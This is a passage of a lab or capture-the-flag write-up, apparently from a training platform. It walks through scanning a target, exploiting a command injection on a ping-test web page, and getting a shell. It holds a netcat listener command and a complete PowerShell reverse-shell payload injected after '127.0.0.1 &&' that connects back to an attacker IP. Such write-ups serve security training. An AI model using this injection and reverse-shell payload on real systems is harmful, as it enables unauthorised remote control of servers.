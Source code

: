 ## Skills Assessment

* Part 1:

    ```sh
    ping 10.129.225.46
    # target not responding to ping
    # we can check for open ports

    nmap -T4 -p- -A -Pn -v 10.129.225.46
    # port 80 is open

    # it is given that the webpage has a command injection vulnerability
    # it is a ping test page

    # command injection works with '&&' character
    # payloads like '127.0.0.1 && whoami' work
    # we can use this to get RCE

    # setup listener
    nc -nvlp 4444
    ```

    ```ps
    # payload to get reverse shell
    # taken from revshells
    '127.0.0.1 && powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.252',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"'
    ```

    ```ps
    # in our reverse shell
    whoami
    # iis apppool\defaultapppool
